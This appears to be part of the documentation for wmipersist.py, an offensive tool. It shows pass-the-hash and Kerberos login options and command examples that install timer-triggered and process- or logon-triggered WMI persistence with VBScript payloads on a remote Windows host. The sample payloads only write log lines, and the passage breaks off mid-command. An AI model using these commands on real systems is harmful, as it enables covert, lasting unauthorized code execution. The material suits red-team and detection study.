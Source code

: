 ```
  -com-version MAJOR:MINOR  DCOM version (e.g., 5.7)
  -debug                Turn DEBUG output ON
  -ts                   Add timestamp to logging output

Authentication:
  -hashes LMHASH:NTHASH NTLM hashes, format is LMHASH:NTHASH
  -no-pass              Don't ask for password (useful for -k)
  -k                    Use Kerberos authentication
  -aesKey hex key       AES key for Kerberos Authentication (128 or 256 bits)
  -dc-ip ip address     IP Address of the domain controller
```

## Usage Examples

### Basic Timer-based Persistence
```bash
# Create VBScript payload file
cat > payload.vbs << 'EOF'
Dim objFS, objFile
Set objFS = CreateObject("Scripting.FileSystemObject")
Set objFile = objFS.OpenTextFile("C:\Windows\Temp\persistence.log", 8, true)
objFile.WriteLine Now() & " - WMI Persistence Active"
objFile.Close
EOF

# Install timer-based persistence (execute every 60000ms = 1 minute)
python3 wmipersist.py domain.com/admin:password@192.168.1.100 install \
  -name TimerPersist -vbs payload.vbs -timer 60000

# Remove the persistence
python3 wmipersist.py domain.com/admin:password@192.168.1.100 remove \
  -name TimerPersist
```

### Event-based Persistence (Process Creation)
```bash
# Create payload to execute when calc.exe is started
cat > process_monitor.vbs << 'EOF'
Dim objShell
Set objShell = CreateObject("WScript.Shell")
objShell.Run "cmd.exe /c echo Process Created >> C:\Windows\Temp\proc_monitor.log", 0, False
EOF

# Install event-based persistence
python3 wmipersist.py domain.com/admin:password@192.168.1.100 install \
  -name ProcessMon -vbs process_monitor.vbs \
  -filter 'SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA "Win32_Process" AND TargetInstance.Name = "calc.exe"'
```

### Advanced Event Filters
```bash
# Monitor for new user logons
cat > logon_monitor.vbs << 'EOF'
Dim objFS, objFile
Set objFS = CreateObject("Scripting.FileSystemObject")
Set objFile = objFS.OpenTextFile("C:\Windows\Temp\logon_monitor.log", 8, true)
objFile.WriteLine Now() & " - User Logon Detected"
objFile.Close
EOF

python3 wmipersist.py domain.com/admin:password@192.168.1.100 install \
  -name LogonMon -vbs logon_monitor.vbs \
```
